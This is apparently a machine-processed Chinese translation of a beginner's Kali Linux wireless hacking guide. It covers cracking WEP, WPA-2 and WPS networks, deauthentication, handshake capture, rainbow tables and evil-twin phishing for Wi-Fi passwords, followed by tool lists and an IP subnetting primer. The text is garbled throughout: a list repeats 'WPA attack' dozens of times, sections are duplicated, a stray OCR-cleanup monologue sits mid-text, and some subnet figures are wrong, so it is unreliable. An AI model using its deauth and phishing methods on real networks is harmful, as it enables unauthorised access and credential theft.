





# 无线黑攻击：Kali Linux 无线黑攻击入门指南


# 先决条件

无

# 阅读后收获

你将了解：

## 隐藏网络提供-
- 你会遇到哪些不同类型的无线网络，以及破解每种网络的难度有多大。
- 什么是隐藏网络，它们是否真的对黑客构成了挑战。
- 你将大致了解各种“类型”的无线网络实际上是如何被破解的。
- （最后一点将在下一章中详细介绍）

## 无线安全级别

下面是我用来解释无线网络可能具备的各种安全实现方案的简单点列表。

假设你是一家俱乐部的经理。关于进入俱乐部，有许多可能的情况：

- 开放网络 - 它们不需要密码即可连接到无线路由器（接入点）。
  1. 开放进入且无限制使用 - 任何人都可以进来。他们可以无限制地进入舞池、免费啤酒等。
  2. 这是开放网络。它仅用于公共场所（餐厅等），为用户提供互联网访问（WiFi 热点）。发现此类网络并不多见。

## 无线攻击通常指的是破解路由器的密码。

- 3. 开放进入但限制使用。任何人都可以进来，但必须为饮料付费。从路由器的安全角度来看，这也是一个开放网络。然而，连接到无线路由器（进入俱乐部）并不能保证你可以无限制访问互联网。还有另一层身份验证。这些常见于公共场所（机场、餐厅、快餐店、购物中心），它们允许你在不输入任何密码的情况下连接到无线网络，在那之后你和互联网之间还有一层额外的层。这一层限制了你访问互联网的能力（通过通过带宽或时间）。这一层可以根据你使用的数据量向你收费。

上述讨论的重点是，无线攻击通常指的是破解路由器的密码。在你登录后，你和互联网之间可能存在的额外层是你需要单独处理的，不属于无线攻击的范畴。因此，从 WiFi 攻击的角度来看，上述两种网络都是相同的，都是“开放”的，且不需要任何破解。

## 愚蠢的防护入口 (WEP)

ISP（互联网服务提供商）可能要求用户登录账户才能访问互联网。

### 1. 门口密码且无限制访问。

对于在机器上安装了 Kali Linux 的人来说，破解 WEP 无线网络可能只需要几分钟。

俱乐部成员每月支付固定金额，并获得免费饮料的权限。他们必须在俱乐部看起来可疑的入口处说密码。不幸的是，任何人都可以偷听到密码并进入。这就是受 WEP保护的网络。对于在机器上安装了 Kali Linux 的人来说，破解这种无线网络只需要几分钟。这些都是容易的目标。然而，由于极易被破解，现在发现受 WEP 保护的网络已不多见。WPA 和 WPA-2 更常见。

### 2. 门口密码进入受限制访问。

只有成员可以进入，但他们仍然需要为饮料付费。这种情况发生在网络有密码且访问互联网需要额外层级时。这常见于三种情况：

- 大学通常会分配学生 ID 和密码，学生可以通过这些信息访问学院提供的互联网设施
- 1 某些 ISP 要求登录 - 许多 ISP 用户需要登录其账户才能访问互联网。登录通常会提供一个界面，让用户查看自己的带宽使用情况、网络计划详情等。
- 2 大学/学校/办公室 - 许多机构为用户提供账户，用户用这些账户访问网络。

暴力破解可能需要永远的时间（字面意思），取决于密码的长度。再次，从无线攻击的角度来看，上述网络都是“受 WEP 保护的”，且相当容易破解。

## 良好的防护入口

无论进入是否需要另一层身份验证，就无线网络密码而言，WEP 和 WPA 的情况是相同的。唯一的区别是无线路由器使用的是 WPA 而非 WEP。然而，还有另一个子类别：

### 1. 对于大多数目的，进入该俱乐部是安全的。理论上，如果你愿意尝试，绕过这种安全级别需要大量时间，甚至取决于运气。这是 WPA 网络。破解此网络的唯一方法是字典攻击。暴力破解可能需要永远的时间（字面意思），取决于密码的长度，字典攻击也需要几天或几周，并且可能失败（如果密码不在字典中）。

### 2. 指纹和扫描进入 - 创建了一种可以快速进入的替代路径。虽然这为合法用户节省了时间，但账户可以被盗取。这不像偷听密码（WEP）或进入（开放）。这是 WPS 开启的情况。就像 WEP 一样，WPS 是一个弱点，现在的路由器要么禁用了它，要么增加了一些措施（如速率限制）使其非常困难。

## 奖励：隐藏入口

上述任何一种都有秘密入口。听起来很酷对吧？这类似于我们说的“通过隐藏来实现安全”。如果你不知道俱乐部的入口在哪里，如何进入？在你不知道入口时，有两种选择：

- 1. 被动方法 - 你去附近的建筑楼顶，拿着望远镜尝试寻找进入的方法。在无线术语中，你等待客户端连接网络。这可能花费大量时间，但从取证角度来看相对安全（通过观察，确保不留下任何线索，可能会被发现）。隐藏网络并没有网络提供太多保护，受 WEP 保护的隐藏网络意味着不需要 15 分钟就能获取密码。

- 2. 主动方法 - 你切断建筑的供电/供水，或者触发火报警。无论如何，强制成员离开俱乐部。一旦他们发现一切正常，就会回来。你会知道入口在哪里。在无线术语中，你可以取消认证（无论你是破解 WEP 网络还是获取 WPA 握手[此处有更多]）。当然，这种方法会留下痕迹，至少你不需要等待几个小时。

隐藏入口的对应物是隐藏网络。只要网络有客户端，很容易找到网络名称（SSID）。准确地说，将网络设置为隐藏基本上阻止了接入点公开它。然而，当客户端连接到网络时，带有 SSID（明文，即未加密）的信标帧（数据包）会传输，你可以捕获网络的 SSID。所以，隐藏网络并没有网络提供太多保护，受 WEP 保护的隐藏网络意味着不需要 15 分钟就能获取密码。对于 WPA 网络，隐藏 SSID 并没有意义，因为 WPA 网络实际上是不可破解的，拥有时间和处理能力获取 WPA加密的人不会被隐藏 SSID 阻止。

## 总结

在访问路由器后，你和互联网之间可能存在额外的验证步骤（登录）或其他障碍。然而，这是一个完全独立的问题，与无线攻击的讨论没有太大关系。但仍然是你必须注意的：

## 无线热点或开放网络没有任何加密。

- 无线热点或开放网络没有任何加密。任何人都可以访问。此外，你传输的数据没有加密，周围的任何人都可以读取。你发送到目标服务器的任何明文（例如发送到 Google）都将以明文从你的机器传输到无线路由器。周围的任何人都可以使用 Wireshark 或任何类似工具轻松读取它。当然，敏感数据很少是明文的，所以不要坐在无线热点旁等某人的 FB 登录凭据。然而，开放网络缺乏加密的问题应该认真考虑。从无线攻击而言，这里没什么可做的（除了嗅探空气中未加密的数据之外）。

- WEP - 这是大部分问题发生的地方。无数的漏洞、无数的攻击、无数列出问题的研究论文、无数获取密码的工具。学习如何破解这些内容不需要花费太多精力。如果你熟悉 Linux，那么完全不需要费吹力。只需一些终端命令，你就搞定了（对于 WiFi，你甚至不需要同时进行这些）。

- WPA - 不想错过这个家伙。理论上有一种进入的方法。实际上，它需要永远的时间。字典攻击和暴力破解是获取它的方法。我们将在指南的高级版本中涵盖所有这些内容。注：当我说 WPA 时，指的是 WPA 和 WPA-2。对于...


就本章而言，它们是相同的。

# 带有 WPS 的 WPA：没有 WEP 那么简单

- 带有 WPS 的 WPA - 一个有弱点的硬汉。击中他的痛点，原本“需要永远才能进入”就会变成几小时的事。虽然没有 WEP 那么简单，但仍然可行。遗憾的是，你可能会遇到一个有弱点但已经开始吸取教训并妥善保护该点的家伙（带有速率限制或其他安全措施的 WPS）。

我希望你现在对各种类型的无线安全有了一个大致的了解。我脑海中还有几份高级指南，它们将涉及这些“类型”的加密细节、漏洞及其利用方法。至于实际的黑客攻击过程，本网站以及互联网其他地方有很多关于这方面的教程，因此我不再重复介绍这些内容。我希望这次当你阅读指南时，能够意识到正在发生什么，而不会最终尝试在 WPA 网络上对 WPS 目标进行攻击。

# 前提条件

你应该了解（这些内容在《无线黑客基础》中都有涵盖）：

- 你会遇到哪些类型的无线网络，以及破解每种网络有多有多困难。
- 什么是隐藏网络，它们是否真的对黑客构成了挑战。
- 对各种“类型”的无线网络实际上是如何被破解的有一个大致的概念。

# 阅读后收获

你将了解到：

- 更多关于不同类型无线网络的知识。
- 如何破解任何给定的无线网络。

## WEP：主要问题是静态密钥和弱效的 IV。

- 无线黑客攻击常用的工具和攻击方法。

最后两点将在后续章节中详细介绍。关于攻击的加密方面、漏洞和利用方法的大致概念。关于每种“类型”无线网络安全加密方面的大致概念。

## WEP、WPA 和 WPA-2

WEP：无线联盟的目标是编写一种算法，使无线网络像有线网络（LAN）一样安全。这就是为什么该协议被称为等效隐私（相当于传统有线网络预期的隐私）。遗憾的是，虽然在理论上 WEP 背后的想法听起来无懈可击，但实际的实现有很多缺陷。主要问题是静态密钥和弱效的 IV。一段时间以来，

人们试图修复这些问题，但没有效果良好的（制作了 WEP2、WEP plus 等，但都失败了）。

WPA 是一种新的 WLAN 标准，与使用 WEP 加密的设备兼容。它修复了 WEP 加密中几乎所有的缺陷，但由于与旧硬件工作的限制，WEP 问题的遗留仍继续困扰 WPA。总的来说，WPA 是相当安全的。在上面的故事中，这是一艘经过翻新的船。

极少数的工具可以正确执行针对 WPA 网络的攻击。

WPA-2 是无线网络最新且最稳健的安全算法。它与许多设备并不后兼容，但现在所有新设备都支持 WPA-2。这是一艘无懈可击的船，使用了更强合金的新型号。

但等一下……

在上一章中，我们假设 WPA 和 WPA-2 是同一个东西。在这一章中，我告诉你们它们非常不同。怎么回事？

实际上，这两个标准确实非常不同。然而，虽然 WPA 中确实存在 WPA-2 所不具备的遗留缺陷，但从黑客的角度来看，破解这两种网络的技术通常是相同的。为什么呢？

- 极少数工具可以正确执行针对 WPA 网络的攻击（缺乏概念验证脚本意味着你必须从零开始，而大多数人做不到）。
- 所有这些攻击在特定条件下有效（密钥更新期必须足够长、必须启用 QoS 等）。

由于这些原因，尽管 WPA 比 WPA-2 安全性稍低，但在大多数情况下，黑客不得不使用暴力破解/字典攻击以及他在攻击 WPA-2 时会使用的其他方法。从他的角度来看，这实际上让 WPA 和 WPA-2 变成了同一个东西。

如果你不想留下任何痕迹，那么被动方法是唯一选择。

PS：WPA/WPA-2 的故事比我在这里记录的要多。实际上，WPA 或 WPA-2 是模糊的，且详细的描述（PSK、CCMP、TKIP、EAP）需要 WPA 以及 WPA-2 的版本。

## 如何破解

既然你已经了解了这些基础知识，让我们来看看这些网络是如何被破解的。更多细节将在后续教程中提供。

## WEP

传递给 RC4 密码的初始化向量（IV）是 WEP 的弱点。大多数攻击依赖于 WEP 的固有缺陷。基本上，如果你收集了足够多的它们，就能获得密码。

- 如果你不想留下任何痕迹，那么被动方法是唯一选择。在这种情况下，你只需监听开启的通道并捕获数据包（airodump-ng）。这些允许你使用 airc-ng 破解它。

# 主动方法

- 如果你不在意留下痕迹，主动方法是唯一选择。这涉及到与网络的交互。实现此点的最好方法之一是强制客户端执行取消握手和重新认证，这将产生新的 IV。这被称为 ARP 请求。
- Chopchop 攻击
- 分段攻击
- W-攻击
- W-攻击
- 分段攻击
- 重新进行客户端认证攻击
- 取消认证攻击
- WEP 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击
- WPA 攻击

等等，有办法捕获数据包来破解 WPA-2 吗？有的，但只有当你拥有可以验证的 4 次握手时。由于这些原因，尽管 WPA 比 WPA-2 安全性稍低，但在大多数情况下，黑客不得不使用暴力破解/字典攻击以及他在攻击 WPA-2 时会使用的其他方法。从他的角度来看，这实际上让 WPA 和 WPA-2 变成了同一个东西。

实际上，让我们重新检查 WPA 与 WPA-2 的区别。WPA 使用 TKIP（临时完整性协议），而 WPA-2 使用带有 CCMP（带消息认证码的计数模式密码协议）的 AES（高级加密标准）。AES 比 TKIP 安全得多。TKIP 容易受到像 Chopchop 等某些攻击，但 CCMP 不会。然而，攻击 WPA-2 的主要方法是强制客户端断开连接并重新连接。一旦有了 4 次握手，你就可以使用暴力破解或字典攻击来破解。

等等，我为什么重复了？让我关注实际输出。

目标是提供一个格式良好的 OCR 文本版本。让我重新阅读 OCR 文本以确保没有遗漏信息。

“只有当你有 4 次握手时。基本上，通过询问 AP 每次检查正确性有方法吗？是的，但你只需要捕获传输的数据包（4 次握手），然后你就可以验证密码。”

好的，OCR 文本在中间有些重复且混乱。我将清理结构并保留所有信息。

等待，提示说：“保留原始语言和所有信息，不要删除或总结。”

所以我将保留文本，只需修复格式错误。

让我们再次尝试。


比密码列表表要大。因此，虽然我们节省了破解密码的时间，但我们必须使用大得多的文件（有些高达数百 GB），而不是较小文件。这被称为**时间空间权衡**（time-memory tradeoff）。该文件包含 1000 个最常用 SSID 的彩虹表。

强制你的目标受害者连接到你创建的虚假开放网络，然后向他的浏览器中发送一个登录页面，要求他输入网络密码。

- 2 欺骗用户让你把密码交给你。基本上，这只是中间人攻击和社交工程攻击的结合。更具体地说，它是**恶性孪生**（evil twin）和钓鱼攻击的结合。在这种攻击中，你首先强制客户端断开与原始 WPA-2 网络的连接，然后强制连接你创建的虚假开放网络，最后向他的浏览器中发送一个登录页面，要求他输入网络密码。你可能会想，为什么我们需要保持网络开放状态然后在浏览器中请求密码呢？答案在于 WPA-2 在四次握手期间执行双向认证。基本上，客户端验证 AP 是否合法且已知密码，而 AP 验证客户端是否合法且已知密码（在整个过程中，密码从未以明文发送）。我们只是没有完成四次握手的必要数据。

- 3 额外说明：WPS 漏洞和 reaver [我已单独详细介绍过，所以不再重复解释（我只是凡人，而且是个非常懒的人）]

WPA-2 四次握手过程。AP 和客户端相互认证。

## 工具 (Kali)

在本章中，我将列出 Kali 中预装的一些无线黑客类别的常用工具，以及它们的用途。

### 捕获数据包
- airodump-ng
- wireshark（非常多功能的工具，有书籍专门介绍该工具用于数据包分析）

### 2 破解握手包

### # Wireshark（非常多功能的工具，有书籍专门介绍该工具用于数据包分析）。

- aircrack-ng（可以破解握手包也可以破解 WEP）
- hashcat（GPU 破解）
- cowpatty

### 3 WPS
- reaver
- pixiewwps（执行“Pixie 灰埃攻击”）

### 4 酷炫工具
- aireplay-ng（主要针对 WEP）
- mdk3（很酷的东西）

### 5 自动化
- wifite · fluxion（不是常用的脚本）

## 无线黑客

你应该了解：

- 你会遇到哪些类型的无线网络，以及破解每种网络的难度有多大。
- 什么是隐藏网络，它们是否真的对黑客构成了挑战。
- 大致了解各种不同“类型”的无线网络实际上是如何被破解的。

你将学会：

- 更多地了解不同类型的无线网络。
- 如何破解任何指定的无线网络。
- 无线黑客中常用的工具和攻击。
- WEP、WPA 和 WPA-2

WEP 是上述讨论中存在缺陷的方案。无线联盟的目标是编写一种算法，使无线网络（WLAN）像有线网络（LAN）一样安全。这就是为什么该协议被称为等同线隐私（Wired Equivalent Privacy，等同于传统有线网络的预期隐私）。遗憾的是，虽然 WEP 背后的理论无懈可击的，但实际实现有很多缺陷。主要问题是静态密钥和弱的 IV（初始化向量）。一段时间以来，人们尝试修复这些问题，但没有一个是有效的（制作了 WEP2、WEPplus 等但都失败了）。

WPA 是一种新的 WLAN 标准，兼容使用 WEP 加密的设备。它修复了 WEP 加密几乎所有的缺陷，但由于必须与旧硬件兼容的限制，WEP 的某些遗留问题仍然会困扰 WPA。总的来说，WPA 是相当安全的。在上面的故事中，这是一艘重修的船。

WPA-2 是无线网络最新且最稳健的安全算法。它与许多设备不向后兼容，但现在所有新设备都支持 WPA-2。这是一艘无坚不摧的船，使用了更强合金的新型号。

- 极少数工具可以正确执行针对 WPA 网络的攻击（模糊的概念证明性脚本意味着你必须从零开始完成一切，而大多数人做不到）。
- 所有这些攻击仅在特定条件下有效（密钥更新期必须足够长、必须启用 QoS 等）。

由于这些原因，尽管 WPA 的安全性比 WPA-2 稍微低，但在大多数情况下，黑客必须使用暴力破解/字典攻击以及他针对 WPA-2 会使用的其他方法，这从他的角度来看让 WPA 和 WPA-2 变得没有区别。

PS：WPA/WPA-2 的故事比我在这里记录的更多。实际上，WPA 或 WPA-2 是模糊的描述，实际的复杂性（关于使用的加密和认证：PSK、CCMP、TKIP、X/EAP、AES）需要进一步研究个人版和企业版的 WPA 以及 WPA-2。

## 如何破解

现在你已经了解了所有网络的基础知识，让我们来看看这些网络实际上是如何被破解的。

## WEP

大多数攻击依赖于 IV（初始化向量）的固有弱点。基本上，如果你收集了足够多的 IV，就能获得密码。获取密码的方法有两种类型：

- 1 被动方法
- 如果你不想留下任何痕迹，那么被动方法是首选。在这种情况下，你只需监听通道并在数据（airodump-ng）。这些数据包将提供 IV，有了足够的就可以破解网络（aircrack-ng）。

### 主动方法
上述方法非常缓慢，因为你需要大量数据包。然而，有很多加速过程的方法。基本思想是启动某种对话，然后捕捉由此产生的数据包。问题是，并不是所有数据包都带有 IV。因此，在没有 AP 密码的情况下，你必须生成带有 IV 的包。

- Chopchop 攻击
- 碎片攻击
- Cafe Latte 攻击

我将单独详细介绍这些攻击（我真的无法在此总结）。

## WPA-2 (以及 WPA)

这里没有你可以轻松利用的漏洞。我们只有两种选择：要么给出密码，要么欺骗用户把密码交给我们。

1 猜密码 - 猜某些东西需要两点：猜测（这不用说）和验证。基本上，你需要大量的猜测，并能够验证它们是否正确。最原始的方法是在连接 Wi-Fi 时操作系统提供的密码框中输入猜测。但很慢，因为你必须手动操作。即使你为它编写脚本，也需要花费时间，因为每次猜测都要与 AP 通信（每个猜测多次）。基本上，通过向 AP 请求进行验证是缓慢的。那么，是否有方法可以在不询问 AP 的情况下检查密码的正确性？有的，但前提是你有四次握手。基本上，你捕捉有效客户端连接到 AP 时传输的一系列数据包。如果你有这些数据包（四次握手），就可以针对它验证你的密码。关于这有更多细节，但我希望这个抽象的概念是清晰的。猜测密码有几种不同的方式：

- 暴力破解 - 尝试所有可能的密码。只要时间足够，这保证会有效。然而，对于 8 位长度的字母数字密码，暴力破解所需的时间非常长。
- 词列表/字典 - 在这种情况下，有一份作为密码候选的单词列表。这些词列表包含英语单词、单词组合、拼写错误


……单词，等等。存在许多巨大的词汇表，大小可达几个 GB，许多网络可以使用它们来破解。然而，并不能保证你正尝试破解的网络其密码就在列表中。

- ° **彩虹表 (Rainbow table)** - 我之前提到的针对四次握手的验证过程涉及对明文进行哈希处理，并将其与握手中的哈希值进行比较。然而，哈希计算（WPA 使用 PBKDF2）是一项 CPU 密集型任务，是限制测试密钥速度的因素（这就是为什么有许多工具使用 GPU 而不是 CPU 来加速破解的原因）。现在，一种可能的解决方案是，创建词汇表/字典的人也可以将明文密码转换为哈希值，这样就可以直接进行检查。遗憾的是，WPA-2 在哈希处理时使用了“盐”（salt），这意味着如果两个网络使用相同的密码但使用了不同的盐，它们的哈希值也会不同。WPA-2 是如何选择盐的？它使用网络名称（SSID），因此相同的密码会有相同的盐。所以，现在制作词汇表的人必须为所有可能的 SSID 创建单独的哈希值。在实践中，发生的情况是为最常见的 SSID（路由器如 -linksys、netgear、belkin 等时的默认值）生成哈希。如果目标网络具有其中一个 SSID，使用预计算的哈希将显著减少破解时间。这些预计算的彩虹表可能比词汇表大得多，虽然我们节省了破解密码的时间，但我们必须使用大得的文件（有些达数百 GB），而不是较小文件。这被称为**内存权衡 (time-memory tradeoff)**。此页面拥有 1000 个常用 SSID 的彩虹表。

2. **欺骗用户让你提供密码**。基本上这只是中间人攻击和社交工程攻击的结合。更具体地说，它是邪性孪生（evil twin）和钓鱼攻击的结合。在这种攻击中，你首先强制客户端从原始 WPA-2 网络断开连接，然后向他的浏览器发送一个登录页面，你在页面要求他输入网络密码。你可能会奇怪，为什么我们需要保持开放网络并在浏览器中请求密码（我们不能直接创建一个 WPA-2 网络并让用户直接给我们密码吗）？答案在于 WPA-2 在四次握手期间执行双向认证。基本上，客户端验证 AP 是合法的且知道密码，而 AP 验证客户端是合法的且知道密码，该过程从未以（明文）发送。

3. **额外奖励：WPS 漏洞和 reaver** [我已单独详细介绍过，所以不再解释（我只是个人，而且是非常懒的人）]

工具 (Kali)

在这一节中，我将列出 Kali 中预装的一些无线破解类别的常用工具，以及它们的用途。

- 1 捕获数据包
  - airodump-ng
  - wireshark（一个非常多功能的工具，有专门介绍该工具进行数据包分析的书）

- 2 破解握手
  - aircrack-ng（可以破解握手，就像破解 WEP 一样）
  - hashcat（GPU 破解）
  - cowpatty

- 3 WPS
  - reaver
  - pixiewwps（执行“pixie dust 攻击”）

- 4 酷炫工具
  - airplay-ng（主要针对 WEP）
  - mdk3（酷炫的东西）

- 5 自动化
  - wifite
  - ° fluxion（实际上它不是一个常用的脚本，但由于我写过它的教程，所以我把它链接在这里）

# 3 网络基础：IP 地址、子网掩码和子网

## IP 地址

IP 地址简单来说是任何网络（使用 IP 协议）上的每个设备都必须的 32 位地址。它通常以十进制形式表示，因为二进制写法太麻烦了。例如：

十进制表示：192.168.1.1
二进制：11000000.10101000.00000001.00000001

IPv4 地址（点十进制表示） 从二进制形式来看，IP 确实是 32 位。范围从 0.0.0.0 到 255.255.255（分别为全 0 和全 1）。

## IP 地址组成

现在这个 IP 地址有两个部分：网络地址和主机地址。许多路由器保留前几个字节（8 位）作为网络地址，最后一个字节作为主机地址。一个常见的配置是 192.168.1.1。在这里，192.168.1.0 是网络地址，0.0.0.1 是主机地址。你可以看到主机地址可以从 0 到 255 变化（尽管0 和 255 被保留）。

## 子网掩码

但不同的网络有不同的需求。之前的配置让你有很多可能的网络（不仅仅是 192.168.1.0，而是大于255）。这就是为什么网络和主机地址没有“硬编码”标准，而是可以自行指定。使用子网掩码，我们可以为每个需求提供灵活的配置。子网掩码用于将 IP 地址划分为子网。

我们将从基础示例开始。假设我们要定义一个类似于之前示例的掩码。希望前三个字节对应网络，下一个字节对应主机地址。让我们考虑用于分离 IP 地址网络和主机的操作。为了简单，我们可以定义第三段之后的任何内容作为主机地址。虽然这是一个简单的解决方案，但它并不灵活。

了一种更优雅的数学解决方案被提出。首先，我告诉你子网掩码的数学功能。假设 A 为 IP 地址，M 为子网掩码。那么 A & M 得到网络地址，A (~M) 得到主机地址。其中，& 是按位与（And），~ 是按位非（Not，即补码）。

示例
A = 192.168.1.1 是你的 IP 地址
M = 255.255.255.0
将其转换为二进制并执行所需的操作。
A = 11000000.10101000.00000001.00000001 (192.168.1.1)
M = 11111111.11111111.11111111.00000000 (255.255.255.0)
A&M = 11000000.10101000.00000001.00000000 (192.168.1.0)
A&M 是我们需要的网络 IP。
A = 11000000.10101000.00000001.00000001 (192.168.1.1)
~M = 00000000.00000000.00000000.11111111 (0.0.0.255)
A&~M = 00000000.00000000.00000000.00000001 (0.0.0.1)
A&~M 是我们需要的主机 IP。

解释
基本上，如果你意识到 11111111 在十进制中是 255，那么你就可以对于你想要的网络 IP 部分，将子网设置为 255，而对于你主机的部分，将其设置为 0。

所以，如果你想为网络预留 2 个字节，为主机预留 2 个字节，那么子网将是：
M = 255.255.0.0

如果你想为主机预留 3 个字节，那么：
M = 255.0.0.0

因此，我们可以看到使用子网掩码可以实现我们想要的，即定义具有我们所需的任意主机数量的网络。现在我们更进一步。

## 子网

现在假设你想将你的网络分成部分。这些子网络被称为子网（subnets）（称它们 subnetwork 也是正确的）。

我们直接进入主题，考虑子网掩码 M：
M = 11111111.11111111.11111111.11000000


现在，前 3 个字节描述了网络。但第四个字节（本应用于主机）的 2 个最高位（即最左侧位）为 1。因此，当我们执行位与与操作时，第四个字节的两个最高位（最左侧位）将显示出来。因此它们将成为网络地址的一部分。然而，它们属于主机字节。因此，这两个属于主机字节但出现在网络 IP 地址中的位将网络划分为子网。

这 2 位可以表示 4 种可能的组合：00、01、10 和 11，因此网络将有 4 个子网。

## 子网示例

回到我们之前的 "A"，
A = 11000000.10101000.00000001.xx00001 (192.168.1.1)
M = 11111111.11111111.11111111.11000000 (255.255.255.192)
A&M = 11000000.10101000.00000001.xx000000 (192.168.1.0)

此前，无论 A 的第四个字节中是什么，我们都会在 A&M 的第四个字节中得到 0，即子网将取决于 xx 的值形成（这次我们将在网络地址中获得两个最高位。根据 xx 的值形成 4 个子网（xx 可以是 00、01、10 或 11）。现在，我们将看到哪个子网拥有哪组主机。

哪些子网拥有哪些主机：
- 11000000.10101000.00000001.00000000 拥有主机 192.168.1.0-63 (00000000 到 00111111)
- 11000000.10101000.00000001.01000000 拥有主机 192.168.1.64-127 (01000000 到 01111111)
- 11000000.10101000.00000001.10000000 拥有主机 192.168.1.128-191 (10000000 到 10111111)
- 11000000.10101000.00000001.11000000 拥有主机 192.168.1.255 (11000000 到 11111111)

因此，掩码 M 将网络划分为 4 个等的子网，每个子网有 64 个主机。有些子网要复杂得多，并在某些特定领域有应用。我建议查阅 Wikipedia 上关于子网（Subnetworks）的页面以获取更多思路。

## 特殊 IP

- 0.0.0.0 = 本地机器上的所有 IP。托管在此 IP 上的任何内容对网络上的所有设备可用。
- 127.0.0.1 = 本地主机（LocalHost），它回环到机器本身。
- 255.255.255.255 = 广播，发送到此 IP 的任何内容都会广播给网络上的所有主机。

## 结论

这种使用 /24、/25、/26 等表示子网的方法在进行扫描（使用 nmap 等）时非常有用。24 代表掩码 255.255.255.0，这是最常见的路由器配置。我们稍后讨论的子网部分是 /26，它有 4 个子网。25 有 2 个子网。27 有 8 个子网。/31 有 128 个子网！在这个子网中，每个网络只有 1 到 2 个主机，用于点对点链路。当你下次需要处理网络时，就不会遇到困难了。还有诸如多播（Multicast）等主题，可以在此处进行进一步阅读。

# 4

# Wifi 破解 - WEP

1. 你的无线适配器名称。好了，现在你的电脑有很多适配器，要扫描一个你需要知道它的名称。基本上需要知道以下内容：
- lo - 回环
- eth - 以太网
- wlan - 这是需要的。查看所有适配器输入 ifconfig。注意 wlan0 适配器名称。

2. 启用监听模式
